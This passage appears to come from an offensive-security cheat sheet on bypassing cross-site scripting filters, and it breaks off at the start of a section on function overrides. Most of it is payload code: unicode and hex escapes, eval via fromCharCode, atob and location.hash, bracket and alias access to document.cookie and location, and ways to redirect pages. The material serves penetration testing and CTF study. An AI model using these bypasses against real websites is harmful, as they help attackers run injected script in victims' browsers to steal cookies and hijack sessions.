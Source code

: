 Refer to [HTML Attribute Value Filtering Bypass](#html--attribute-value-filtering-bypass) for more payloads. The payloads below can be used within a `script` or an `HTML attribute`.

```js!
\u{61} == \u0061 == \u{00000000061}
\u0061lert('XSS')         // Unicode Bypass
eval("\x61lert")          // Hex Bypass
eval('aler'+'t')('XSS')   // Eval Bypass (with/without '+')
eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))
eval(atob('YWxlcnQoJ1hTUycp'))
eval(location.hash.slice(1))
eval(decodeURIComponent(location.hash)) // Provide #alert(1)
eval(unescape(location.hash))           // Provide #alert(1)
```

If `btoa` is banned and you want to extract values with weird characters, maybe you could use `payload.replace(/<[^>]+>|\n|\t/g, "")`.

<details class="details-n"><summary>Payload Encoding Using JavaScript</summary></details>

<br>

#### JavaScript — HTML objects

In many payloads, we want to access `location` and `document.cookie`. They are often banned keywords. Tricks for [words](#javascript--word-filtering-bypass) still apply.

```js!
\u006Cocation                            // Unicode Bypass
document["location"], window["document"] // String/Array Access
window.document.location                 // Property Access (often banned)
window == self == this == top == [...]   // Window as multiple "aliases"
```

There are multiple ways to change the location:

```js!
location = "" // or location.href = ""
location.assign("")
location.replace(...)
```

You can access HTML tags, such as to change a tag src value, using:

```js!
document.all             // access HTML elements by index
document.all[5].src = "" // If [5] is a <link>/etc. 
```

📚 Don't forget that you may be able to use jQuery.

<br>

#### JavaScript — Function Override

First, assume we have a class defined before we inject our payload.

```js!
class Foo { bar() { return 5 } }
```
